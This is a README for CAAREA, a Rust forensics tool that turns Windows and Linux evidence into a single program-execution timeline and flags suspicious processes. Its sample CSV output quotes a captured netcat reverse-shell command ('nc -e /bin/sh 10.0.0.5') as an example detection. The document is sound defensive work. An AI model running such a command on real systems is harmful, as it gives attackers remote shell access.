


<div align="center">
  
  <br><br>
  <strong>One command. Every program execution on a machine, in order, in a CSV.</strong>
  <br>
  A disk image, a triage package or a folder of logs in. One UTC timeline of <em>what ran, when, as whom and from where</em> out. Windows and Linux, one binary, nothing to install.
  <br><br>

  [](https://github.com/jupyterj0nes/caarea/releases/latest)
  [](https://www.rust-lang.org/)
  [](https://github.com/jupyterj0nes/caarea/releases/latest)
  [](docs/csv-format.md#the-analysis-tail)

</div>

```bash
caarea -f workstation.E01 -o workstation.csv --hunt
```

<div align="center">
  
  <br>
  <em>One command over the 21 public EVTX files of DeepBlueCLI: 13,590 rows in eight seconds, 277 of them judged. Then what the hunt found, with the reason for each row in words: the Metasploit PsExec droppers (a random name at the root of <code>C:\Windows</code>), an installer run from inside an archive's temp folder, Chrome launching <code>msiexec</code>.</em>
</div>

## What it does

- **Windows and Linux in the same timeline.** A KAPE zip from the file server and a UAC tarball from the web server end up in one CSV, sorted together, each row stamped with its host. Images, triage packages, loose folders and single files mix freely. [What it reads →](docs/sources.md)
- **Reads the sources others skip.** Volume Shadow Copies inside E01 and virtual disks, dirty registry hives (their transaction logs replayed in memory), Prefetch including the compressed Windows 10/11 format, SRUM, Jump Lists, the Windows Timeline, the WMI repository, PowerShell history and ScriptBlock logs, Sysmon, AppLocker; `pacct`, `auditd`, the binary systemd journal, package managers, containers, shell histories. Sixty-odd sources in all.
- **Recovers what was deleted.** Freed registry cells and unused `$MFT` records are read by default; `--carve` scans the raw bytes of images, live volumes and pagefiles for hives, event log chunks, MFT and journal records and Prefetch files that no file system points to any more. [Carving →](docs/carving.md)
- **Hunts when you ask.** `--hunt` rebuilds the process tree of every host and marks what contradicts the documented boot and logon tree, the parents that never create shells, dead creators, look-alike and generated names, binaries in folders they do not belong to. Each mark carries its ATT&CK technique, its lineage, and a score that is the measured rarity of the pattern on clean hosts, not the author's confidence. [Process hunting →](docs/hunting.md)
- **Gets the time right.** Every timestamp is UTC. Linux logs that only carry wall-clock time are corrected with the host's own zone, found in the evidence. [Time zones →](docs/time-zones.md)
- **Tells you where a row came from.** Events that only exist in a shadow copy are tagged with the snapshot time; a freed cell says `deleted`; a carved record says `carved` and at which byte. A live event and its recovered twin are never shown twice.
- **Treats evidence as hostile.** Archives are unpacked into an isolated, per-run folder; entries cannot escape it, symlinks are never followed, nothing is ever written into the evidence.

## Quick start

Download the binary for your platform from the [Releases page](https://github.com/jupyterj0nes/caarea/releases/latest), or build it:

```bash
git clone https://github.com/jupyterj0nes/caarea.git
cd caarea
cargo build --release          # binary in target/release/caarea[.exe]
```

| You have | Run |
| :--- | :--- |
| A disk image (E01, Ex01, raw, dd) or a virtual disk (VMDK, VHD, VHDX) | `caarea -f disk.E01 -o out.csv` |
| A running Windows host (triage in place, as administrator) | `caarea -f \\.\C: -o out.csv --stage-dir D:\case\extracted` |
| Triage packages (KAPE, Velociraptor, UAC, Cortex XDR, CyLR), zipped or not | `caarea -d /path/to/packages -o out.csv` |
| A folder you collected by hand (`winevt\Logs`, `/var/log`, ...) | `caarea -d /path/to/folder -o out.csv` |
| Single files (an EVTX, a hive, an `audit.log`) | `caarea -f Security.evtx -f SYSTEM -f audit.log -o out.csv` |
| The six hours around the moment of interest | `caarea -d triage -o out.csv --toi 2026-09-24T12:00:00Z --toi-window 6` |

Add `--hunt` to any of them. Add `-m evtx`, `-m registry`, `-m windows` or `-m linux` to run one parser family only, `--overwrite` to replace an existing CSV. Every flag: [command reference](docs/cli.md).

## What comes out

One RFC 4180 CSV with fifteen columns: ten that describe the event (`timestamp, computer, artifact, event_id, pid, subject_username, target_username, processname, commandline, parentprocessname`) and the analysis tail that [masstin](https://github.com/jupyterj0nes/masstin), faramir and allymacb close their timelines with (`hunt, hunt_score, hunt_why, verdict, notes`), with the same words and the same scale in the four tools, so a case tool maps it once. Timestamps are UTC with a fixed width, so sorting the text sorts the time. Open it in Timeline Explorer or Excel.

```csv
"2016-09-21T03:41:02.560546Z","IE10Win7","evtx:4688",4688,3744,"WORKGROUP\IE10WIN7$","","C:\Windows\duKhLYUX.exe","C:\Windows\duKhLYUX.exe","",,,,,
"2025-09-26T00:01:40.243000Z","victim01","linux:audit:execve",0,3538,"1000","1000","/usr/bin/nc","nc -e /bin/sh 10.0.0.5 (CWD: /tmp)","PID: 2686",,,,,
```

The `artifact` column names the source and how the row was obtained: `evtx:4688`, `registry:bam:deleted`, `evtx:4688:vss [2026-09-04T08:12:53Z]`, `prefetch:carved [pagefile @0x4f000]`. Every column, with the rules of the tail: [the CSV →](docs/csv-format.md)

## What it reads

| | Sources |
| :--- | :--- |
| **Windows event logs** | Security (4688/4689, boot marker 4608, services, tasks, log cleared), System (7045, 7034, 7036, Kernel-General 12, MsiInstaller), Application (WER), Sysmon 1/5/6/7/11, PowerShell 400/800/4103/4104, TaskScheduler, WMI-Activity, AppLocker, Defender, Shell-Core, BITS |
| **Windows file artifacts** | Prefetch, SRUM, Amcache, Jump Lists and `Recent\*.lnk`, Windows Timeline, PowerShell console history, task XML, WER reports, Defender and PCA logs, the WMI repository, `RecentFileCache.bcf`, `Syscache.hve` |
| **Registry** | BAM/DAM, ShimCache, services, Run keys, TaskCache, IFEO / Winlogon / AppInit, UserAssist, RunMRU, RecentDocs, MUICache, FeatureUsage, CapabilityAccessManager, Office TrustRecords; dirty hives repaired from their logs, freed cells included |
| **NTFS** | `$MFT` (binaries and scripts written outside the system folders, resident script content quoted, freed records) and `$UsnJrnl:$J` (every Prefetch rewrite, drops, renames, deletions, log truncation) |
| **Linux** | `pacct`, `audit.log`, the binary systemd journal, `auth.log` / `secure` / `syslog` / `cron`, shell and REPL histories, `dpkg` / `apt` / `dnf` / `pacman` / `zypper`, cron and systemd units and timers, `wtmp` / `btmp`, Docker / containerd / podman, cloud-init, web server access logs, UAC process listings |
| **Containers of all that** | E01 / Ex01, raw, VMDK, VHD / VHDX, live volumes, **every Volume Shadow Copy**, ext2/3/4 and LVM2 partitions, KAPE / Velociraptor / UAC / Cortex XDR / CyLR packages, zips and tarballs nested five deep |

Event ids, keys and the notes on each source: [What it reads →](docs/sources.md)

## Process hunting

`--hunt` runs the rules over the finished timeline and fills the tail of each row it judges: `hunt` is `significant` or `candidate` (or `habitual` when a clean reference host executes the same thing), `hunt_score` is how rare the row is on masstin's scale, 0 to 100, and `hunt_why` names every rule that fired, strongest first, then the lineage. The ten event columns do not change a byte. The detailed findings, with the catalogue score and the ATT&CK technique of every hit, go to a second CSV next to the timeline.

<div align="center">
  
</div>

The rules only state what a documented source states: the expected-parent and allowed-children tables come from the SANS *Hunt Evil* poster and Elastic's parent-child rule. A rule's points are not chosen either: they are how often its pattern fires on stock, clean hosts, measured by a script and recorded with the corpus, and a row a clean host also produces is vouched for whatever its rules say. The rule catalogue, the process tree behind it, the measurement and its limits: [Process hunting →](docs/hunting.md)

## Documentation

| Topic | Where |
| :--- | :--- |
| Every source, with event ids, keys and the notes on each | [docs/sources.md](docs/sources.md) |
| The fifteen columns, the analysis tail, how to read the CSV | [docs/csv-format.md](docs/csv-format.md) |
| Process hunting: rules, process tree, how `hunt_score` is measured, the clean reference | [docs/hunting.md](docs/hunting.md) |
| Carving: what is looked for in raw bytes and how a structure proves itself | [docs/carving.md](docs/carving.md) |
| Time zones of Linux logs | [docs/time-zones.md](docs/time-zones.md) |
| Every command-line option | [docs/cli.md](docs/cli.md) |
| What is done and what is next | [ROADMAP.md](ROADMAP.md) · [CHANGELOG.md](CHANGELOG.md) |

`caarea --help` lists every flag.

## How it is tested

`cargo test` runs 151 tests: real-layout records for every binary format, real auditd lines, the public TZif files of two zones, safety tests that try to break out of the staging folder, and the identities the clean reference is matched by. Beyond them, the parsers were checked against:

- 524 public EVTX samples ([EVTX-ATTACK-SAMPLES](https://github.com/sbousseaden/EVTX-ATTACK-SAMPLES), [EVTX-to-MITRE-Attack](https://github.com/mdecrevoisier/EVTX-to-MITRE-Attack), DeepBlueCLI): the count per file matches `Get-WinEvent` exactly for every supported event id.
- The registry test corpus of [yarp](https://github.com/msuhanov/yarp): the transaction log replay (in the shared [blockcarve](https://github.com/jupyterj0nes/blockcarve) crate) gives the same hive bins as Windows 10 and Windows 7 when they recovered those dirty hives themselves.
- Real `pacct` files, Ubuntu 24.04 logs, an NTFS volume image produced on a Linux box and a 50 GB Windows workstation VMDK (dirty SYSTEM, SOFTWARE, DEFAULT and Amcache hives replayed from their logs).
- The hunt, against two clean lab hosts collected live (nothing flagged once the clean reference is in) and a third one with eight executions and a WMI consumer planted by `scripts/lab/plant.ps1`: five of the nine found, no unplanted row flagged, the four misses named as rule gaps.

The TaskScheduler operational channel is off by default on Windows clients and no public corpus has it; `scripts\gen_taskscheduler_sample.ps1` turns it on, creates and runs a harmless task, exports the channel and runs CAAREA on it.

## Limits worth knowing

- BitLocker volumes are detected and skipped; decrypt first.
- XFS and btrfs partitions are not read yet; `hiberfil.sys` is scanned raw, its compressed pages are not decoded.
- Classic syslog has no year; it is inferred from the file's modification time, so logs spanning more than a year lose precision.
- On a Windows host with the default audit policy there is no 4688 at all, and without command-line auditing the command line is empty; the hunt's genealogy rules need one of Security 4688, Sysmon 1, auditd or `pacct`.
- The CSV has no "source file" column by design; run with `-m` or per package when you need that separation.

## The family

CAAREA is one of four Rust tools that write the same kind of timeline and close it with the same analysis tail, so one case tool reads them all: [masstin](https://github.com/jupyterj0nes/masstin) answers *who logged in where*, faramir *what persists*, allymacb *what the file system did*, and CAAREA *what ran*. They share the [blockcarve](https://github.com/jupyterj0nes/blockcarve) scanner for raw bytes and [vshadow-rs](https://github.com/jupyterj0nes/vshadow-rs) for shadow copies.

## About

CAAREA stands for *Chronological Artifacts & Activity Reconstruction Engine for Analysis*. It builds on stable Rust with a plain `cargo build --release` and ships as one static binary for Windows, Linux and macOS. Internal DFIR research tool by [jupyterj0nes](https://github.com/jupyterj0nes); issues and pull requests are welcome.
